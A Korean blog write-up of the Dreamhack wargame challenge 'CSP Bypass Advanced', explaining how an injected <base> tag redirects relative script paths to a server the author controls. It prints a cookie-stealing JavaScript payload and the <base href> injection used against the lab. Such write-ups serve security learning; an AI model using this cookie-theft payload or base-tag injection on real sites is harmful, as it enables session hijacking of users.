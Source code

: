 ```yaml
---
title: "드림핵 lv.3 - CSP Bypass Advanced"
date: 2025-03-21 00:10:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, csp] 
description: 드림핵 CSP Bypass Advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/436](https://dreamhack.io/wargame/challenges/436)
# 문제 설명
Exercise: CSP Bypass의 패치된 문제입니다.

---
# 문제 풀이
이 전에 다루었던 [CSP Bypass](https://hoonsooni.com/posts/dreamhack_csp_bypass/) 문제의 심화 문제이다. <br />
전체적인 웹사이트의 달라진 점은 없고 CSP를 우회하는 것이 조금 더 까다로워졌다.<br />

웹사이트는 [XSS Filtering Bypass](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass/), [XSS Filtering Bypass Advanced](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass_advanced/), [CSP Bypass](https://hoonsooni.com/posts/dreamhack_csp_bypass/)에서 다뤄진 것과 거의 동일하기 때문에 특별히 분석할 것이 없다.
## 코드 분석
### app.py
```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)
```
나머지 코드는 거의 비슷하기 때문에 크게 달라진 부분만 가져와봤다.<br />

원래라면 /vuln 페이지에서는 param으로 들어가는 값을 그대로 리턴해주기 때문에 스크립트 코드의 실행 결과를 해당 페이지에서 볼 수 있었는데 이번에는 vuln.html이라는 페이지로 넘기면서 코드가 아닌 코드처럼 보이는 "문자열"이 그냥 화면에 출력되게끔 바뀌었다.<br />

그렇기 때문에 이 전에 시도했던 방식을 시도해보면 alert 창이 뜨지 않고 HTML 코드에만 script 태그가 들어간 것을 볼 수 있다. 문자열 그대로 들어간거기 때문에 실행은 되지 않는다.<br />
## 최종 풀이
우리가 지금 `<script>` 태그를 실행할 수 없는 이유는 HTTP 해더에 CSP 설정 값으로 막아두었기 때문이다.<br />
전 문제에서는 이를 우회하기 위해서 src 속성을 사용했지만 그것도 먹히지 않는다.<br />

드림핵 강의에서 CSP 우회 방법 중에 `<base>` 태그에 대해 다룬 적이 있다.<br />
해당 태그는 현재 서버가 운영중인 웹서비스의 기본 URL을 변경한다는 의미이다.<br />

예를 들어 www.google.com에 접속했을 때 해당 페이지의 기본 URL은 당연하게도 www.google.com이다.<br />
그렇기 때문에 해당 페이지에서 `<a href="/login" />`같은 링크를 눌렀을 때 기본 URL + /login으로 이동돼 최종적으로 www.google.com/login 페이지로 이동이 가능한 것이다.<br />
### base URL로 할 수 있는 것
/vuln 페이지의 HTML을 살펴보다 보면 해당 페이지가 로드될 때 실행되는 스크립트 주소가 보이게 된다.

```html
<script src="/static/js/jquery.min.js" nonce=""></script>
<script src="/static/js/bootstrap.min.js" nonce=""></script>
```
이렇게 두 스크립트가 실행된다.<br />

두 스크립트 모두 소스코드 주소(src 속성)를 절대 주소가 아니라 상대 주소를 사용하기 때문에 base URL을 변경해주면 내가 원하는 위치의 스크립트를 불러와 실행할 수 있게된다.<br />

즉, 지금 현재 baseURL은 "http://host3.dreamhack.games:14010"이기 때문에 /vuln 페이지에 접속할 때마다 "http://host3.dreamhack.games:14010/static/js/jquery.min.js"에 있는 코드를 실행한다는 것이다.<br />

`<base>` 태그를 이용해서 기본 주소를 변경해주고 내가 작성한 임의의 코드를 "임의서버주소/static/js/jquery.min.js" 위치에 저장함으로써 우리가 원하는 행위를 할 수 있게되는 것이다.<br />
### 익스플로잇
```js
location.href="http://127.0.0.1/memo?memo=" + document.cookie;
```
본인은 현재 운영중인(지금 보고계신 웹사이트) 개인 서버의 "/static/js/jquery.min.js" 위치에 위 코드를 입력하고 /vuln?param 값으로 `<base href="https://www.hoonsooni.com" />`을 넘겨주었다.<br />

하지만 무슨 짓을 해도 작동을 안한다. 시도해봄직한 경우의 수는 거의 다 시도해보고 테스트도 거쳐봤는데 무슨 수를 써도 /memo?memo= 뒤에 어떠한 문자열도 들어가지 않는 문제가 발생한다.<br />

그래서 혹시나 다른 서버를 이용하면 작동을 할까 싶어서 replit에 무료로 간단한 서버를 하나 올리고 거기에도 똑같은 위치에 똑같은 파일을 작성하니 이제 작동한다.<br />

/memo 페이지에 접속하면 플래그를 볼 수 있다.<br />

처음으로 시도했던 방법이 왜 안먹히는지는 아직 알아내지 못했다. 드림핵에 질문을 남겨도 일주일 넘게 아무런 답변을 받지 못했다.
# 배운 것
`<base>` 태그라는 것이 존재하는지 처음 알았고 해당 태그를 이용해서 내가 원하는 코드를 실행시키는 방법도 있는 것에 대해 놀랐다.